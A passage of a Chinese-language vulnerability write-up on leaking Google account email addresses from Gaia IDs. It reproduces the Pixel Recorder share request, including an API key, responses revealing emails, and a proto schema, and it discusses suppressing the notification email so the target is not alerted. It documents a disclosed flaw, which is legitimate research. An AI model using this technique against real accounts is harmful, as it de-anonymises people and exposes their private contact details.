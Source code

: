 我们可以泄露该频道的 Gaia ID - 103261974221829892167  
### 缺失的拼图：Pixel Recorder  
  
我把 YouTube Gaia ID 泄露的事情告诉了我的朋友 Nathan，然后我们开始研究一些被遗忘的旧版 Google 产品，因为它们可能存在某个漏洞或逻辑缺陷，可以将 Gaia ID 解析成电子邮件地址。  
  
Pixel Recorder 就是其中之一。  
  
Nathan 在他的 Pixel 手机上录制了一个测试视频，并同步到他的 Google 账户，这样我们就可以通过网页访问这些端点，地址是 https://recorder.google.com：  
  
![img](https://mmbiz.qpic.cn/mmbiz_png/cxf9lzscpMrzBy00NClSsOQMkkWgISthicpvFF7IDtUJISkd8t6xcxYxeMjIjdZ2yg5gDqHXN6onnbvkwnceQqw/640?wx_fmt=png&from=appmsg "null")  
  
  
当我们尝试将录音分享给一个测试邮箱时，我们突然意识到了关键点所在：  
  
**Request**  
```
POST /$rpc/java.com.google.wireless.android.pixel.recorder.protos.PlaybackService/WriteShareList HTTP/2Host: pixelrecorder-pa.clients6.google.comCookie: <redacted>Content-Length: 80Authorization: <redacted>X-Goog-Api-Key: AIzaSyCqafaaFzCP07GzWUSRw0oXErxSlrEX2RoContent-Type: application/json+protobufReferer: https://recorder.google.com/["7adab89e-4ace-4945-9f75-6fe250ccbe49",null,[["113769094563819690011",2,null]]]
```  
  
**Response**  
```
HTTP/2 200 OKContent-Type: application/json+protobuf; charset=UTF-8Server: ESFContent-Length: 138["28bc3792-9bdb-4aed-9a78-17b0954abc7d",[[null,2,"vrptest2@gmail.com"]]]
```  
  
这个接口居然接受了一个混淆过的 Gaia ID，然后……返回了对应的邮箱地址？  
  
我们用之前在 YouTube 屏蔽用户时拿到的 Gaia ID 107183641464576740691 做了测试，结果真的成功了：  
```
HTTP/2 200 OKContent-Type: application/json+protobuf; charset=UTF-8Server: ESFContent-Length: 138["28bc3792-9bdb-4aed-9a78-17b0954abc7d",[[null,2,"redacted@gmail.com"],[null,2,"vrptest2@gmail.com"]]]
```  
### 一个小问题：如何避免通知目标用户  
  
虽然我们可以通过这个接口成功获取邮箱地址，但过程中会触发一个小小的副作用 —— Google 会向目标邮箱发送分享通知邮件。  
  
![img](https://mmbiz.qpic.cn/mmbiz_png/cxf9lzscpMrzBy00NClSsOQMkkWgISthYKeJ2MCiauYCrP0iaiccEknU40mLmibshgghSwbGugHEmzicBdE3bgKg8EA/640?wx_fmt=png&from=appmsg "null")  
  
  
这显然会暴露我们的行为，所以接下来我们需要想办法**悄无声息**  
地完成查询，避免打草惊蛇。  
  
这可不妙，这个问题会大大降低整个漏洞的危害等级。  
  
在分享的弹窗界面里，似乎并没有任何选项可以**关闭通知邮件**  
的发送。  
  
![img](https://mmbiz.qpic.cn/mmbiz_png/cxf9lzscpMrzBy00NClSsOQMkkWgISthticcF9jeicia7Dolm3q8qE6iaQWcvkYSofNTvAQ43NVKLfic2ib16sFLA4ag/640?wx_fmt=png&from=appmsg "null")  
  
  
也就是说，只要我们通过这个方法查询邮箱，对方就会收到一封“有人分享了录音给你”的邮件，瞬间暴露我们在“搞事情”——对研究者来说，这无疑是一大限制。  
  
我尝试用我的工具 **req2proto**  
 把整个请求的 proto（协议缓冲区）结构泄出来看个清楚，但……并没有发现任何能**关闭邮件通知**  
的字段或选项。  
```
syntax = "proto3";package java.com.google.wireless.android.pixel.recorder.protos;import "java/com/google/wireless/android/pixel/recorder/sharedclient/acl/protos/message.proto";message WriteShareListRequest {  string recording_id = 1;  string delete_obfuscated_gaia_ids = 2;  ShareUser update_shared_users = 3;  string sharing_message = 4;}message ShareUser {  string obfuscated_gaia_id = 1;  java.com.google.wireless.android.pixel.recorder.sharedclient.acl.protos.ResourceAccessRole role = 2;  string email = 3;}
```  
  